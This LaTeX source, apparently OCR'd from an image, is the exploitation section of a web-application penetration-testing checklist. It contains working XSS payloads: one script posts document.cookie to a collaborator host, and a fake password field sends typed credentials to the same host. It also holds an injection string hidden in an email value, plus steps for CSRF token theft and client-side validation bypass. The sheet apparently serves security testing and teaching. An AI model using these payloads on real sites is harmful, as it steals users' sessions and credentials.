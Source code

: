 \documentclass[12pt]{article}
\begin{document}
\section{Phase 6: Exploitation \& Impact Assessment}

\begin{tcolorbox}[title={\textbf{6.1 Proof of Concept Payloads}}, colback=lightgreen]
\begin{itemize}[leftmargin=*]
    \item \textbf{Cookie Stealing:}
    \begin{lstlisting}[basicstyle=\ttfamily\small]
    <script>fetch('https://collaborator.net', {
        method:'POST', mode:'no-cors', body:document.cookie
    });</script>
    \end{lstlisting}
    
    \item \textbf{Credential Theft:}
    \begin{lstlisting}[basicstyle=\ttfamily\small]
  <input name=username id=username>
  <input type=password name=password onchange="if(this.value.
  length) 
  fetch('https://collaborator.net', {method:'POST',
   mode:'no-cors', body:username.value+':'+this.value});">
    \end{lstlisting}
    
    \item \textbf{CSRF Token Theft:}
    \begin{itemize}
        \item Read CSRF tokens via XSS
        \item Make authenticated requests with stolen tokens
        \item Change email/password on behalf of user
    \end{itemize}
\end{itemize}
\end{tcolorbox}

\begin{tcolorbox}[title={\textbf{6.2 Client-Side Validation Bypass}}, colback=lightblue]
\begin{itemize}[leftmargin=*]
    \item \textbf{Developer Tools Manipulation:}
    \begin{itemize}
        \item Remove \texttt{disabled} attributes from buttons
        \item Change input types (email → text)
        \item Modify \texttt{maxlength} attributes
        \item Remove/change form patterns
    \end{itemize}
    
    \item \textbf{Legitimate-looking Payloads:}
    \begin{lstlisting}[basicstyle=\ttfamily\small]
    foo@example.com"><img src= onerror=alert(1)>
    \end{lstlisting}
\end{itemize}
\end{tcolorbox}
\end{document}
